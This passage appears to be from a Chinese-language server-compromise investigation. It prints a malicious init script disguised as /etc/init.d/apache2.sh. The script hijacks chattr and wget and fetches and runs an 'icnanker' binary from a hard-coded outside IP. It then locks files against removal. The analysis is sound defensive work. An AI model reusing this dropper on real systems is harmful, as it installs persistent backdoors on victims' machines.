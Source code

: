 “我需要知道，这家伙究竟对我的机器干了些什么！”

从上面的命令记录来看，/etc/init.d/apache2.sh这个脚本有很大的嫌疑，查看脚本内容：

# cat /etc/init.d/apache2.sh
#!/bin/sh
while [ 1 -gt 0 ];do
Get="/usr/bin/vget"
Lok="/usr/bin/lockr"
Bak="/usr/bin/.filebak"
hosts="/etc/hosts.bak"
File="/usr/bin/icnanker"
if [ ! -f  "$hosts" ];then
    cp -f /etc/hosts.deny /etc/hosts.bak
    lockr +i /etc/hosts.bak
fi
if [ ! -f  "$Lok" ];then
    cp -f /usr/bin/chattr /usr/bin/lockr
    cp -f /usr/bin/chattr /usr/bin/.locks
    cp -f /usr/bin/.locks /usr/bin/lockr
    chmod 0755 /usr/bin/lockr
    chmod 0755 /usr/bin/.locks
    lockr +i /usr/bin/lockr
    lockr +i /usr/bin/.locks
fi
if [ ! -f  "$Get" ];then
    cp -f /usr/bin/wget /usr/bin/vget
    cp -f /usr/bin/wget /usr/bin/.bget
    cp -f /usr/bin/.bget /usr/bin/vget
    chmod 0755 /usr/bin/vget
    chmod 0755 /usr/bin/.bget
    lockr +i /usr/bin/vget
    lockr +i /usr/bin/.bget
fi
Exist=`ss|grep 183.60.149.202:43200|grep -v "grep" `
if [ -z "$Exist" ];then
    lockr -i /usr/bin/.filebak
    lockr -i /usr/bin/icnanker
    chmod 0755 /usr/bin/.filebak
    chmod 0755 /usr/bin/icnanker
    if [ ! -f  "$File" ];then
        if [ ! -f  "$Bak" ];then
            rm -f /etc/init.d/icnanker;rm -f /etc/init.d/icnanker.1
            vget -P /etc/init.d/ vget http://183.60.149.202:8080/icnanker
            mv /etc/init.d/icnanker /usr/bin/icnanker
        else
            cp -f /usr/bin/.filebak /usr/bin/icnanker
        fi
    fi
    pkill icnanker;pkill icnanker
    chmod 0755 /usr/bin/icnanker
    lockr +i /usr/bin/icnanker
    /usr/bin/icnanker
fi
if [ ! -f  "$Bak" ];then
    cp -f /usr/bin/icnanker /usr/bin/.filebak
    chmod 0755 /usr/bin/.filebak
    lockr +i /usr/bin/.filebak
fi
chmod 0 /usr/bin/wget
lockr +i /usr/bin/wget
chmod 0 /usr/bin/chattr
lockr +i /usr/bin/chattr